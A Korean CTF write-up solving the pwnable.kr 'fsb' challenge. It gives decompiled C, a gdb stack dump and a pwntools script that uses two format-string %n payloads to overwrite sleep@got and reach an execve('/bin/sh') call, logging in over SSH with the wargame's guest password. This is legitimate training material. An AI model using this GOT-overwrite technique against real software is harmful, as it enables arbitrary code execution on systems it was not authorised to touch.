 ```yaml
---
title: "[pwnable.kr]fsb"
date: 2020-1-15
tags: [pwnable.kr]
categories: [pwnable.kr]
---
```


여기 `printf(buf);` 에서 포맷스트링 버그가 터진다. 근데 buf가 전역변수이라는 점이다. Double Staged FSB로 풀면 될거 같다.

```c
int __cdecl fsb(_BYTE **a1, _BYTE **a2)
{
  char *path; // [esp+24h] [ebp-24h]
  int v4; // [esp+28h] [ebp-20h]
  int k; // [esp+2Ch] [ebp-1Ch]
  _BYTE **i; // [esp+30h] [ebp-18h]
  _BYTE *j; // [esp+34h] [ebp-14h]
  _DWORD *v8; // [esp+38h] [ebp-10h]
  _DWORD *v9; // [esp+3Ch] [ebp-Ch]

  path = "/bin/sh";
  v4 = 0;
  v8 = &a1;
  v9 = &a2;
  for ( i = a1; *i; ++i )
  {
    for ( j = *i; *j; ++j )
      *j = 0;
  }
  for ( i = a2; *i; ++i )
  {
    for ( j = *i; *j; ++j )
      *j = 0;
  }
  *v8 = 0;
  *v9 = 0;
  for ( k = 0; k <= 3; ++k )
  {
    printf("Give me some format strings(%d)\n", k + 1);
    read(0, buf, 100u);
    printf(buf);
  }
  puts("Wait a sec...");
  sleep(3u);
  puts("key : ");
  read(0, buf2, 100u);
  if ( strtoull(buf2, 0, 10) == key )
  {
    puts("Congratz!");
    execve(path, &path, 0);
  }
  else
  {
    puts("Incorrect key ");
  }
  return 0;
}
```

read받을 때 esp를 보면 0xffe21248을 보면 0xffe21260을 가르키고 있다. 이곳을 덮으면 0xffe21260에 값이 써질 것이다. 그리고 0xffe21260을 덮으면 처음 덮었던 곳이 두번째 덮은 값으로 바뀔거다.

```
(gdb) x/30wx $esp
0xffe21210:	0x00000000	0x0804a100	0x00000064	0x00000000
0xffe21220:	0x00000000	0x00000000	0x00000000	0x00000000
0xffe21230:	0x00000000	0x08048870	0x00000000	0x00000000
0xffe21240:	0xffe335c4	0xffe33fe9	0xffe21260	0xffe21264
0xffe21250:	0x00000000	0x00000000	0xffe334b8	0x08048791
0xffe21260:	0x00000000	0x00000000	0x00000000	0x00000000
0xffe21270:	0x00000000	0x00000000	0x00000000	0x00000000
```

익스 시나리오는 14번째 스택에 sleep@got로 덮어주면 20번째 스택에 값이 써지니까 거기를 execve실행시켜주는 곳으로 got overwrite시키면 sleep을 실행시키면 execve()를 실행할 수 있다. 

> exploit.py

```python
from pwn import *

e = ELF('./fsb')
#p = process('./fsb')

s = ssh('fsb','pwnable.kr',port=2222,password='guest')
p = s.process('./fsb')
# sleep@got : 134520840
p.sendafter('(1)\n','%134520836c%14$n') # sleep@got
p.sendafter('(2)\n','%134514335c%20$n') # execve

p.interactive()
```

